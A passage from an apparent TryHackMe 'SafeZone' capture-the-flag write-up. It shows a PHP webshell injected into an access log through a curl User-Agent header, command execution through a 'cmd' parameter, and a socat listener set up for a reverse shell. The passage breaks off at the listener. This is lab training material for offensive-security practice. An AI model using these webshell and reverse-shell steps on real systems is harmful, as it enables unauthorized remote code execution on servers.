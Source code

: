 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230020830.png)

> Note: If you can't read it, try to restart the machine. Maybe the access log file is too big, and it can't read. (Fun fact: This problem is exactly what I've encountered during the OSCP exam...)

**Next, we can injection a PHP webshell!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# curl -A '<?php echo exec($_GET[cmd]) ; ?>' http://safezone.thm
```

**Finally, we can execute command via providing GET parameter `cmd`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230023418.png)

**Let's get a reverse shell!**

- Setup a listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2022/12/30 02:34:35 socat[107759] N opening character device "/dev/pts/1" for reading and writing
2022/12/30 02:34:35 socat[107759] N listening on AF=2 0.0.0.0:443
```

